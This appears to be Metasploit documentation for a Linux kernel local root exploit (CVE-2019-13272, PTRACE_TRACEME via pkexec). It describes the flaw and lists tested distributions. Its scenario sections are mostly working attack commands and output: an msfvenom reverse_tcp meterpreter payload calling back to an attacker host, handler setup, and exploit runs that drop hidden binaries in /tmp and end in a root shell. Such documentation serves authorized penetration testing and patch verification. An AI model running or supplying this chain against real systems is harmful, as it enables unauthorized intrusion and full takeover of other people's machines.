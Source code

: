 ## Vulnerable Application

This module exploits an issue in ptrace_link in kernel/ptrace.c before Linux
kernel 5.1.17. This issue can be exploited from a Linux desktop terminal, but
not over an SSH session, as it requires execution from within the context of
a user with an active Polkit agent.

In the Linux kernel before 5.1.17, ptrace_link in kernel/ptrace.c mishandles
the recording of the credentials of a process that wants to create a ptrace
relationship, which allows local users to obtain root access by leveraging
certain scenarios with a parent-child process relationship, where a parent drops
privileges and calls execve (potentially allowing control by an attacker). One
contributing factor is an object lifetime issue (which can also cause a panic).
Another contributing factor is incorrect marking of a ptrace relationship as
privileged, which is exploitable through (for example) Polkit's pkexec helper
with PTRACE_TRACEME. NOTE: SELinux deny_ptrace might be a usable workaround in
some environments.

  This module has been tested successfully on:
  * Ubuntu 16.04.5 kernel 4.15.0-29-generic
  * Ubuntu 18.04.1 kernel 4.15.0-20-generic
  * Ubuntu 19.04 kernel 5.0.0-15-generic
  * Ubuntu Mate 18.04.2 kernel 4.18.0-15-generic
  * Linux Mint 17.3 kernel 4.4.0-89-generic
  * Linux Mint 18.3 kernel 4.13.0-16-generic
  * Linux Mint 19 kernel 4.15.0-20-generic
  * Xubuntu 16.04.4 kernel 4.13.0-36-generic
  * ElementaryOS 0.4.1 4.8.0-52-generic
  * Backbox 6 kernel 4.18.0-21-generic
  * Parrot OS 4.5.1 kernel 4.19.0-parrot1-13t-amd64
  * Kali kernel 4.19.0-kali5-amd64
  * Redcore 1806 (LXQT) kernel 4.16.16-redcore
  * MX 18.3 kernel 4.19.37-2~mx17+1
  * RHEL 8.0 kernel 4.18.0-80.el8.x86_64
  * Debian 9.4.0 kernel 4.9.0-6-amd64
  * Debian 10.0.0 kernel 4.19.0-5-amd64
  * Devuan 2.0.0 kernel 4.9.0-6-amd64
  * SparkyLinux 5.8 kernel 4.19.0-5-amd64
  * Fedora Workstation 30 kernel 5.0.9-301.fc30.x86_64
  * Manjaro 18.0.3 kernel 4.19.23-1-MANJARO
  * Mageia 6 kernel 4.9.35-desktop-1.mga6
  * Antergos 18.7 kernel 4.17.6-1-ARCH

## Verification Steps

  1. Start msfconsole
  1. Get a shell or meterpreter session on the target
  1. Do: `use exploit/linux/local/ptrace_traceme_pkexec_helper`
  1. Do: `set session #`
  1. Do: `exploit`

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to `/tmp`

  **COMPILE**
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to `Auto`

## Scenarios

### Ubuntu 18.04 (with Linux 4.15.0-13-generic)

#### Initial Access

We need to gain an initial session on the target system before we can use this module.
Additionally this module will only work from a GUI session, and will fail with an SSH session.
In order to gain a compatible session we will upload a payload binary and run it from gnome-terminal.

```
# Create a payload binary
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f elf -o binary

# Start a handler
msfconsole
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.56.1:4444

# Execute the payload using gnome-terminal on the target

[*] Sending stage (3021284 bytes) to 192.168.56.7
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.7:33244) at 2019-09-03 17:42:17 +0800

meterpreter > background

```

#### Escalate

In this scenario, gcc is installed so we can live compile on the system.

```
msf5 exploit(multi/handler) > use exploit/linux/local/ptrace_traceme_pkexec_helper
msf5 exploit(linux/local/ptrace_traceme_pkexec_helper) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(linux/local/ptrace_traceme_pkexec_helper) > set SESSION 1
SESSION => 1
msf5 exploit(linux/local/ptrace_traceme_pkexec_helper) > set VERBOSE true
VERBOSE => true
msf5 exploit(linux/local/ptrace_traceme_pkexec_helper) > exploit
[*] Started reverse TCP handler on 192.168.56.1:4444
[+] Kernel version 4.15.0-13-generic appears to be vulnerable
[+] pkexec is installed
[*] Writing '/tmp/.zacecz' (285 bytes) ...
[+] gcc is installed
[*] Live compiling exploit on system...
[*] Writing '/tmp/.fmrefxhjjcq.c' (9718 bytes) ...
[*] Executing exploit '/tmp/.fmrefxhjjcq'
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3021284 bytes) to 192.168.56.7
[*] Exploit result:
Linux 4.10 < 5.1.17 PTRACE_TRACEME local root (CVE-2019-13272)
[.] Checking environment ...
[!] Warning: $XDG_SESSION_ID is not set
[!] Warning: Could not find active PolKit agent
[~] Done, looks good
[.] Searching for known helpers ...
[~] Found known helper: /usr/lib/gnome-settings-daemon/gsd-backlight-helper
[.] Using helper: /usr/lib/gnome-settings-daemon/gsd-backlight-helper
[.] Spawning suid process (/usr/bin/pkexec) ...
[.] Tracing midpid ...
[~] Attached to midpid
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.7:58270) at 2019-09-03 17:29:57 +0800
meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```

#### Escalate w/ pre-compiled binaries

It is possible to force pre-compiled binaries, in a scenario where `build-essential` or `gcc` aren't on the system.

```
msf5 exploit(multi/handler) > use exploit/linux/local/ptrace_traceme_pkexec_helper
msf5 exploit(linux/local/ptrace_traceme_pkexec_helper) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(linux/local/ptrace_traceme_pkexec_helper) > set SESSION 1
SESSION => 1
msf5 exploit(linux/local/ptrace_traceme_pkexec_helper) > set COMPILE False
COMPILE => False
msf5 exploit(linux/local/ptrace_traceme_pkexec_helper) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[+] Kernel version 4.15.0-13-generic appears to be vulnerable
[+] pkexec is installed
[*] Writing '/tmp/.yaamzkukaml' (285 bytes) ...
[*] Dropping pre-compiled exploit on system...
[*] Writing '/tmp/.wtoplrisgzzo' (51200 bytes) ...
[*] Executing exploit '/tmp/.wtoplrisgzzo'
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3021284 bytes) to 192.168.56.7
[*] Exploit result:
Linux 4.10 < 5.1.17 PTRACE_TRACEME local root (CVE-2019-13272)
[.] Checking environment ...
[!] Warning: $XDG_SESSION_ID is not set
[!] Warning: Could not find active PolKit agent
[~] Done, looks good
[.] Searching for known helpers ...
[~] Found known helper: /usr/lib/gnome-settings-daemon/gsd-backlight-helper
[.] Using helper: /usr/lib/gnome-settings-daemon/gsd-backlight-helper
[.] Spawning suid process (/usr/bin/pkexec) ...
[.] Tracing midpid ...
[~] Attached to midpid
[*] Meterpreter session 3 opened (192.168.56.1:4444 -> 192.168.56.7:58272) at 2019-09-03 17:30:16 +0800
```


